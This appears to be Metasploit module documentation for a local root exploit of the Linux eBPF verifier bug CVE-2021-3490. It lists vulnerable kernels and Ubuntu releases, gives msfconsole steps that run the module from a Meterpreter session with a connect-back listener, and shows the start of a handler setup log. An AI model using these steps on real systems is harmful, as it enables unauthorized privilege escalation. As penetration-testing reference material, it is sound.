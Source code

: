 ## Vulnerable Application

Linux kernels from 5.7-rc1 prior to 5.13-rc4, 5.12.4, 5.11.21, and
5.10.37 are vulnerable to a bug in the eBPF verifier's verification
of ALU32 operations in the `scalar32_min_max_and` function when performing
AND operations, whereby under certain conditions the bounds of a
32 bit register would not be properly updated.

This can be abused by attackers to conduct an out of bounds read
and write in the Linux kernel and therefore achieve arbitrary
code execution as the `root` user.

The target system must be compiled with eBPF support and not have
`kernel.unprivileged_bpf_disabled` set to `1`, which prevents unprivileged
users from loading eBPF programs into the kernel. Note that if
`kernel.unprivileged_bpf_disabled` is enabled this module can still be
utilized to bypass protections such as SELinux, however the user
must already be logged into the system as a privileged user such as `root`.

### Vulnerable Targets
Ubuntu 20.10 (Groovy Gorilla) kernels 5.8.0-25.26 through 5.8.0-52.58 and Ubuntu 21.04 (Hirsute Hippo) 5.11.0-16.17

## Verification Steps

  1. Start `msfconsole`
  2. Gain a Linux Meterpreter shell on a target vulnerable system.
  3. Do: `use exploit/linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe`
  4. Do: `set session #` where the session number corresponds to the low privileged Meterpreter session you spawned earlier.
  5. Do: `set LHOST <ip of your host>`
  6. Do: `set LPORT <port to connect back on>`
  7. Do: `exploit`


## Options

### WritableDir
A folder we can write files to.  Defaults to `/tmp`

### CmdTimeout
The maximum number of seconds to wait for the exploit to run before we end up timing out. Increase this value if the exploit is timing out.

## Scenarios

### Ubuntu 21.04 (with Linux 5.11.0-16-generic)

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/bind_tcp):
```